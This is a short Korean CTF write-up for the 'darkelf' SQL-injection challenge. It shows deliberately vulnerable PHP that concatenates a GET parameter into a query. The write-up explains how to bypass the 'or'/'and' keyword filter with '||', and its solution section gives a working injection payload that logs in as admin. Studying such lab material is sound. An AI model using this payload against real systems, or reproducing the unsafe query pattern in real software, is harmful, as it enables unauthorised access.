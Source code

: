 # DARKELF

## Problem
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

## Inspection
* `if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); `
	- `or`, `and` 연산자를 대소문자 구분없이 거른다. 이를 우회해야 한다.
* `select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'`
	- 파라미터로 `pw`를 받는다.
* `if($result['id'] == 'admin') solve("darkelf");`
	- 쿼리문의 결과의 `id`가 `admin`이어야 통과한다.

## Solution
* `or`, `and` 연산자는 `||`, `&&`로 우회할 수 있다.
	- `' || id='admin' -- `
	- `%27%20||%20id=%27admin%27%20--%20`